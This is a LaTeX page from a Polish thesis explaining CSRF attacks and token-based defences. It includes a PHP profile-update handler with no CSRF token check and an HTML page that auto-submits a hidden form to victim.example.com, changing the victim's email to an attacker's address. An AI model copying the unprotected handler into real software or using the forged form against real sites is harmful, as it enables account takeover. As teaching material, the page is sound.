\documentclass[11pt,a4paper,polish,thesis]{dcsbook}
\begin{document}
Współcześnie zręby projektowe, na podstawie których buduje się aplikacje internetowe, posiadają już gotowe zabezpieczenia przed atakiem CSRF przy pomocy żetonów. Do każdego wygenerowanego formularza (i równocześnie sesji użytkownika) przynależy żeton CSRF o losowej wartości, który należy przekazać w żądaniu do serwera. Zazwyczaj żeton ten jest przechowywany w formularzu w postaci ukrytego pola. Atakujący musiałby najpierw pobrać zawartość strony z formularzem aby poznać wartość, jaką następnie musiałby przekazać podczas wykorzystywania uprawnień ofiary.

\subsubsection*{Przykład}
\begin{lstlisting}[language=html,frame=single,caption=przykładowy kod HTML podatny na atak CSRF \cite{csrf-example},label=csrf01,numbers=left]
<form action="/url/profile.php" method="post">
<input type="text" name="firstname"/>
<input type="text" name="lastname"/>
<br/>
<input type="text" name="email"/>
<input type="submit" name="submit" value="Update"/>
</form>
\end{lstlisting}

\begin{lstlisting}[language=php,frame=single,caption=przykładowy kod PHP podatny na atak CSRF \cite{csrf-example},label=csrf02,numbers=left]
// initiate the session in order to validate sessions

session_start();

//if the session is registered to a valid user then allow update

if (! session_is_registered("username")) {

echo "invalid session detected!";

// Redirect user to login page
[...]

exit;
}

// The user session is valid, so process the request
// and update the information

update_profile();

function update_profile {
// read in the data from $POST and send an update
// to the database
SendUpdateToDatabase($_SESSION['username'], $_POST['email']);
[...]
echo "Your profile has been successfully updated.";
}
\end{lstlisting}

\begin{lstlisting}[language=html,frame=single,caption=przykładowy kod HTML wykorzystujący atak CSRF \cite{csrf-example},label=csrf03,numbers=left]
<SCRIPT>
function SendAttack () {
form.email = "attacker@example.com";
// send to profile.php
form.submit();
}
</SCRIPT>

<BODY onload="javascript:SendAttack();">

<form action="http://victim.example.com/profile.php" id="form" method="post">
<input type="hidden" name="firstname" value="Funny">
<input type="hidden" name="lastname" value="Joke">
<br/>
<input type="hidden" name="email">
</form>
\end{lstlisting}
\end{document}
